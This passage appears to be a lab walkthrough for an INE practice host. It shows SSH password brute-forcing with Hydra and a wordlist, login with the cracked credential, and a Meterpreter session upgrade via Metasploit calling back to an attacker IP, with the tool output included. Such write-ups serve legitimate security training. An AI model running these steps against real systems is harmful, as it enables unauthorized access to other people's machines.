 ```
[*] demo.ine.local:79     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

**Step 3**.

`echo -e "sysadmin\nauditor" > /root/Desktop/users.txt`

`hydra -L /root/Desktop/users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local ssh`: [✓]
```
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-29 21:09:20
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 2018 login tries (l:2/p:1009), ~127 tries per task
[DATA] attacking ssh://demo.ine.local:22/
[22][ssh] host: demo.ine.local   login: sysadmin   password: monkey ←
```

`ssh sysadmin@demo.ine.local`. [✓]

`id`:
```
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin) ←
```

`msfconsole -q`, `search ssh login`, `use auxiliary/scanner/ssh/ssh_login`, `set RHOSTS demo.ine.local`, `set USERNAME sysadmin`, `set PASSWORD monkey`, `exploit -j`. [✓]

`search shell meterpreter`, `use post/multi/manage/shell_to_meterpreter`, `show options`, `set SESSION 1`, `set LHOST 192.113.30.2`, `exploit -j`. [✓]

`sessions`, `sessions -i 2`, `sysinfo`:
```
Computer     : demo.ine.local
OS           : Ubuntu 14.04 (Linux 5.4.0-152-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

`getuid`:
```
Server username: sysadmin ←
```

**Step 4**.

`sudo -l`: [✗]
```
[sudo] password for sysadmin: 
Sorry, user sysadmin may not run sudo on demo.
```
